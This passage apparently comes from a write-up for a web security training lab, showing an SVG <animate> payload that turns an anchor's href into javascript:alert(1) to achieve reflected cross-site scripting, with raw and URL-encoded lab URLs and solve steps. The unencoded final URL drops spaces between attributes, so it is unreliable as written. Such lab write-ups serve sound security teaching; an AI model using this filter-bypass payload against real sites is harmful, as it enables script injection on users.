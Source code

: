 ```html
<svg>
  <a>
    <animate attributeName=href values=javascript:alert(1)/>
    <text x=20 y=20>Click me</text>
  </a>
</svg>
```

This works because:

* `<animate>` sets the `href` of the `<a>` tag to `javascript:alert(1)`
* `<text>` gives a clickable label
* When the user clicks **Click me**, the `alert(1)` fires

---

## Final Payload

```html
<svg><a><animate attributeName=href values=javascript:alert(1)/><text x=20 y=20>Click me</text></a>
```

<img width="866" height="420" alt="image" src="https://github.com/user-attachments/assets/590ab33f-a418-4372-a941-66070fa65952" />


### Final URL (with your lab ID)

```html
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animateattributeName=hrefvalues=javascript:alert(1)/><textx=20y=20>Click me</text></a>
```

### URL Encoded Payload

```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

---

## Steps to Solve the Lab

1. **Paste the encoded payload** into your browser.
2. The page will display **"Click me"**.
3. **Click the link** — the browser executes `javascript:alert(1)`.
4.  **Lab is solved!**

<img width="849" height="294" alt="image" src="https://github.com/user-attachments/assets/bccdc91d-d942-405d-b65a-14bb36d52f56" />

---

## Key Concepts
